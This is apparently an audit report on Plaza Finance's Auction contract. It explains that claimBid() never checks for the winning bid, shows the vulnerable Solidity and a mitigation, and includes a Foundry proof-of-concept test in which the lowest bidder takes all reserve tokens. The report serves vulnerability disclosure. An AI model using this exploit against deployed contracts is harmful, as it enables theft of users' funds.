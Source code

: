 Quiet Seafoam Carp

High

# Any bidder can claim reserveToken in Auction

### Summary

[Auction.sol:claimBid()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L356) function allows any bidder to claim `reserveToken`, not just the auction winner because of missing checks if bid is highest.

### Root Cause

`Auction.sol:claimBid()` does not check if `bidIndex` is the `highestBidIndex`, allowing anyone who has bids in the auction to claim reserveTokens:
```Solidity
/**
  * @dev Claims the tokens for a winning bid.
  * @param bidIndex The index of the bid to claim.
  */
function claimBid(uint256 bidIndex) auctionExpired auctionSucceeded whenNotPaused external {
  Bid storage bidInfo = bids[bidIndex];
  //@audit only checks if bid owned by sender and it's not claimed, but not that its highest bid
  if (bidInfo.bidder != msg.sender) revert NothingToClaim();
  if (bidInfo.claimed) revert AlreadyClaimed();

  bidInfo.claimed = true;
  IERC20(sellReserveToken).transfer(bidInfo.bidder, bidInfo.buyReserveAmount);

  emit BidClaimed(bidIndex, bidInfo.bidder, bidInfo.buyReserveAmount);
}
```


### Internal Pre-conditions

1. Attacker has bids in auction.

### External Pre-conditions

_No response_

### Attack Path

1. Attacker put lowest possible bid with highest possible `buyReserveAmount`
2. Attacker call `Auction.sol:claimBid()` first with his bid

### Impact

`Auction.sol:claimBid()` function does not work as intended, allowing any bidder to claim `reserveToken`.

### PoC

Add this test to `/test/Auction.t.sol `:
```Solidity
function testClaimBidNotHighestGetReserve() public {
  address attackBidder = address(0x1001);
  uint256 mintAmountReserveToken = 1e11;
  uint256 higherBidAmount = 1e10;
  uint256 smallestBidAmount = 1e9;

  uint256 usualBidderBidIndex;
  uint256 attackBidderBidIndex;

  weth.mint(address(auction), mintAmountReserveToken);

  //usual bidder creates highest bid
  vm.startPrank(bidder);
  usdc.mint(bidder, higherBidAmount);
  usdc.approve(address(auction), higherBidAmount);
  usualBidderBidIndex = auction.bid(mintAmountReserveToken, higherBidAmount);
  vm.stopPrank();

  //attack bidder creates lowest bid
  vm.startPrank(attackBidder);
  usdc.mint(attackBidder, smallestBidAmount);
  usdc.approve(address(auction), smallestBidAmount);
  attackBidderBidIndex = auction.bid(mintAmountReserveToken, smallestBidAmount);
  vm.stopPrank();

  //add time to end auction
  vm.warp(block.timestamp + 15 days);

  //check that highest bid is owned by usual bidder
  uint256 highestBidIndexFromAuction = auction.highestBidIndex();
  uint256 lowestBidIndexFromAuction = auction.lowestBidIndex();
  assertEq(usualBidderBidIndex, highestBidIndexFromAuction);
  assertEq(attackBidderBidIndex, lowestBidIndexFromAuction);

  //set auction state = State.SUCCEEDED
  uint256 stateSlot = 7;
  vm.store(address(auction), bytes32(stateSlot), bytes32(uint256(1)));

  //check that before claim attack bidder had no reserve tokens
  uint256 initialAttackBidderBalance = weth.balanceOf(attackBidder);
  assertEq(0, initialAttackBidderBalance);

  //claim bid as lowest bidder
  vm.startPrank(attackBidder);
  auction.claimBid(attackBidderBidIndex);
  vm.stopPrank();

  //check that attacker get all reserve tokens
  uint256 afterClaimAttackBidderBalance = weth.balanceOf(attackBidder);
  assertEq(mintAmountReserveToken, afterClaimAttackBidderBalance);

  //highest bidder can't get reward
  vm.startPrank(bidder);
  vm.expectRevert();
  auction.claimBid(usualBidderBidIndex);
  vm.stopPrank();
}
```
In cmd run this command:
```Shell
forge test --mt testClaimBidNotHighestGetReserve
```
Output:
```Shell
Ran 1 test for test/Auction.t.sol:AuctionTest
[PASS] testClaimBidNotHighestGetReserve() (gas: 543077)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.53ms (366.11µs CPU time)
```

### Mitigation

Update `Auction.sol:claimBid()` like this:
```Solidity
/**
  * @dev Claims the tokens for a winning bid.
  * @param bidIndex The index of the bid to claim.
  */
function claimBid(uint256 bidIndex) auctionExpired auctionSucceeded whenNotPaused external {
  Bid storage bidInfo = bids[bidIndex];
  if (bidInfo.bidder != msg.sender) revert NothingToClaim();
  if (bidInfo.claimed) revert AlreadyClaimed();
  //@audit add check if its highestBid
  if (bidIndex != highestBidIndex) revert("not winner");

  bidInfo.claimed = true;
  IERC20(sellReserveToken).transfer(bidInfo.bidder, bidInfo.buyReserveAmount);

  emit BidClaimed(bidIndex, bidInfo.bidder, bidInfo.buyReserveAmount);
}
```